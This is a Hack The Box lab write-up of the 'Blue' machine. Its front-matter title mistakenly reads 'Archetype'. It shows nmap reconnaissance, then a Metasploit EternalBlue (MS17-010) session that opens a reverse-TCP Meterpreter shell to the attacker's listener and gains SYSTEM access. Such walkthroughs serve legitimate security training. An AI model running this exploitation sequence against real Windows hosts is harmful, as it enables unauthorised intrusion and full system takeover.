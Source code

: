 ```yaml
---
title: "Hack The Box - Archetype"
date: 2023-12-02T00:03:25+05:30
draft: false
description: " Blue from HackTheBox is an retired machine which is vulnerable to infamous CVE:CVE-2017-0143 SMB vulnerabilities which can be easily exploited with publicly available scripts and Metasploit "
hideToc: false
enableToc: true
enableTocContent: true
author: Atom
authorEmoji: ✍️
tags: 
- SMB
- CVE-ID-2017-0143
series:
- Pratical Ethical Hacking TCM
categories:
- Easy
- HackTheBox
- Windows
- CVE Exploitation 
- Metasploit
libraries:

image: /images/hackthebox/blue/Blue.png 
---
```


Hi Hackersuun Welcome Back, Today we are going to look at Hack The Box Blue Machine.

{{< img src="/images/hackthebox/blue/1.png" alt="image alt" width="450px"  position="center" >}}

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Title</th>
    <th>Blue</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Windows</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td><a href="https://www.hackthebox.eu/home/users/profile/1"><img src="https://www.hackthebox.eu/badge/image/1" alt="" style="display: unset"></a>  </td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the service, which is vulnerable to infamous CVE-2017-0143. Smb vulnerabilities which can be easily exploited with publicly available scripts and Metasploit. 

## Mind Map 
{{< img src="/images/hackthebox/blue/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon

we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

``` bash
$nmap -Pn -sC -sV -A 10.129.102.59 -oN  initial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 06:35 IST
Stats: 0:01:56 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 77.78% done; ETC: 06:37 (0:00:18 remaining)
Nmap scan report for 10.129.102.59
Host is up (0.35s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-08T01:07:44
|_  start_date: 2022-06-07T15:32:51
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-08T02:07:43+01:00
|_clock-skew: mean: -19m55s, deviation: 34m36s, median: 3s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.70 seconds
```
## Enumeration

``` bash {hl_lines=[20, 21]}
┌─[✗]─[atom@atom-vmwarevirtualplatform]─[~]
└──╼ $nmap -p 135,139,445 -sV -sC  --script vuln 10.129.102.59
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 06:57 IST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.61% done; ETC: 06:57 (0:00:00 remaining)
Nmap scan report for 10.129.102.59
Host is up (0.29s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.73 seconds

```
## Exploitation 

``` bash {hl_lines=[1, 17, 20, 22, 24, 56, 62, 66]}
[msf](Jobs:0 Agents:0) >> search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set rhost 10.129.102.59
rhost => 10.129.102.59
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set lhost 10.10.14.33
lhost => 10.10.14.33
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> run

[*] Started reverse TCP handler on 10.10.14.33:4444 
[*] 10.129.102.59:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.102.59:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.102.59:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.102.59:445 - The target is vulnerable.
[*] 10.129.102.59:445 - Connecting to target for exploitation.
[+] 10.129.102.59:445 - Connection established for exploitation.
[+] 10.129.102.59:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.102.59:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.102.59:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.102.59:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.102.59:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.102.59:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.102.59:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.102.59:445 - Sending all but last fragment of exploit packet
[*] 10.129.102.59:445 - Starting non-paged pool grooming
[+] 10.129.102.59:445 - Sending SMBv2 buffers
[+] 10.129.102.59:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.102.59:445 - Sending final SMBv2 buffers.
[*] 10.129.102.59:445 - Sending last fragment of exploit packet!
[*] 10.129.102.59:445 - Receiving response from exploit packet
[+] 10.129.102.59:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.102.59:445 - Sending egg to corrupted connection.
[*] 10.129.102.59:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.129.102.59
[*] Meterpreter session 1 opened (10.10.14.33:4444 -> 10.129.102.59:49158 ) at 2022-06-08 07:02:32 +0530
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.102.59:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

(Meterpreter 1)(C:\Windows\system32) > shell
Process 1840 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```



you can find flags under Haries and Administrator's Desktop folder 

{{< notice success "we have successfully Pwned the Machine " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}